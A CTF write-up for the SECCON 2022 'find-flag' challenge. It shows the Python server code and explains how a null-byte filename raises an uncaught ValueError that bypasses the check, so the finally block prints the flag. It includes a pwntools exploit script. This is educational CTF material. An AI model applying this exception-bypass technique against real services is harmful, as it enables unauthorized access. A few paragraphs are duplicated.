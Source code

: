 ```yaml
---
layout: post
title: find-flag
parent: SECCON 2022
tags: [MISC]
grand_parent: CTF Write-ups
nav_order: 2
lang: en
lang-ref: SECCON 2022 - find - flag
hidden: true
---
```


# Find-Flag-en

```python
#server.py
#!/usr/bin/env python3.9
import os

FLAG = os.getenv("FLAG", "FAKECON{*** REDUCTED ***}").encode()
print(len(FLAG))
def check():
    try:
        filename = input("filename: ")
        if open(filename, "rb").read(len(FLAG)) == FLAG:
            return True
    except FileNotFoundError:
        print("[-] missing")
    except IsADirectoryError:
        print("[-] seems wrong")
    except PermissionError:
        print("[-] not mine")
    except OSError:
        print("[-] hurting my eyes")
    except KeyboardInterrupt:
        print("[-] gone")
    return False

if __name__ == '__main__':
    try:
        check = check()
    except:
        print("[-] something went wrong")
        exit(1)
    finally:
        if check:
            print("[+] congrats!")
            print(FLAG.decode())
```

```python
if __name__ == '__main__':
    try:
        check = check()
    except:
        print("[-] something went wrong")
        exit(1)
    finally:
        if check:
            print("[+] congrats!")
            print(FLAG.decode())
```

What is noteworthy about the above code is that the FLAG output is in the FINALLY.

In other words, In the check() function, we can make an exception and bypass the check process.

```python
except FileNotFoundError:
        print("[-] missing")
    except IsADirectoryError:
        print("[-] seems wrong")
    except PermissionError:
        print("[-] not mine")
		except OSError:
        print("[-] hurting my eyes")
```

An ERROR list exceptionally processed by the check() function.

It is possible to make a detour by making other exceptions that are not applicable.

I proceeded the detour using ValueError: embedded null byte.

```c
//local_setup.c
//gcc -o local_setup local_setup.c

#include <stdlib.h>

void main()
{
    system("/usr/bin/python3 server.py");
}
```

The above is a process in which the code is executed using the c code in order to turn it locally without running Docker.

```python
#exploit.py
#remote exploit

"""from pwn import *

payload = b'\x00'
r = remote('find-flag.seccon.games', 10042)
r.recvuntil(b"filename: ")
r.sendline(payload)
print(r.recv())"""

#local exploit

from pwn import *

p = process('./local_setup')
payload = b'\x00'

p.recvuntil(b'filename: ')
p.sendline(payload)
print(p.recv())F
```

![image](/assets/images/SECCON2022/Find-Flag/find-flag.png)

FLAG: SECCON{exit_1n_Pyth0n_d0es_n0t_c4ll_exit_sysc4ll}

An ERROR list exceptionally processed by the check() function.

It is possible to make a detour by making other exceptions that are not applicable.

I proceeded the detour using ValueError: embedded null byte.